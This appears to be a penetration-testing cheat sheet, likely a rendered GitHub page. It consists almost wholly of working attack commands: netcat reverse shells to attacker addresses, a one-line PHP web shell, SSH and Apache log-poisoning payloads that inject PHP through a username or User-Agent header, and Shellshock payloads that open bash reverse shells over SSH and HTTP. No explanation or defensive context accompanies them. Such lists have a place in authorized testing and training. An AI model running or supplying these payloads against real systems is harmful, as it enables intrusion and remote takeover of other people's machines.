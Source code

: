 ## Netcat

```
nc -e /bin/sh 192.168.1.2 443

nc -e /bin/bash 192.168.1.2 443

nc -c /bin/sh 192.168.1.2 443

nc -c /bin/bash 10.10.14.6 7777

nc.exe -e cmd 192.168.1.26 443

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f

```

### PHP Web Shell

```
<?php echo system($_GET['cmd']); ?>

```

---

`Web Shell (SSH Log Poisoning)` /var/log/auth.log

```
ssh '<?php system($_GET['cmd']); ?>'@192.168.1.2

```

`Web Shell (HTTP Log Poisoning)` /var/log/apache2/access.log

```
curl -s -H "User-Agent: <?php system(\\$_GET['cmd']); ?>" "<http://192.168.1.2>"

```

```
User-Agent: <?php system($_GET['cmd']); ?>

```

---

`Shellshock (SSH)`

```
root@kali:~# ssh user@192.168.1.3 -i id_rsa '() { :;}; nc 192.168.1.2 443 -e /bin/bash'

```

`Shellshock (HTTP)`

```
curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "<http://192.168.1.3/cgi-bin/evil.sh>"

curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.2/443 0>&1'" "<http://192.168.1.3/cgi-bin/evil.cgi>"

```
